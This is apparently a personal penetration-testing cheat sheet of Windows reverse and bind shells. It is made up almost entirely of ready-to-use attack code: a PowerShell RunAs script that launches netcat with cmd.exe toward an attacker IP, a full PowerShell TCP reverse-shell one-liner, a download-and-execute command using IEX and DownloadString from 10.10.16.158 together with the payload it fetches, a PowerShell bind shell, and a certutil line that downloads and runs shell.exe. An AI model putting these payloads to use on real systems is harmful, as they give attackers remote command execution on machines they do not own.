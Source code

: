 # Reverse Shells

## **Powershell**

### Windows RunAS via Powershell ([https://securism.wordpress.com/oscp-notes-exploitation/](https://securism.wordpress.com/oscp-notes-exploitation/))

Used If you have a plaintext password and need to run a program as that user. This just so happens to be a reverse shell as administrator

```aspnet
# Setting up the variables  

echo $username = ‘ ‘ > startprocess.ps1
echo $password = ‘ ‘ >> startprocess.ps1
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
echo Start-Process ‘Path to NC’ -ArgumentList ‘-e cmd.exe 10.xx.xx.xx 9999’ -Credential $credential >> startprocess.ps1

# Run the program

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```

### Reverse Shell (My most trustworthy reverse shell for windows)

```
# For entering directly into command-line shell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip address>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Downloading and executing
Put this one in the CMD // powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.158/mypowershell.ps1')"
File will look like this // $client = New-Object System.Net.Sockets.TCPClient("10.10.16.158",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

### Bind Shell

```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',4444);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

## Certutil

```
# Transfers a file and then executes
certutil.exe -urlcache -split -f http://x.x.x.x/shell.exe shell.exe & shell.exe
```

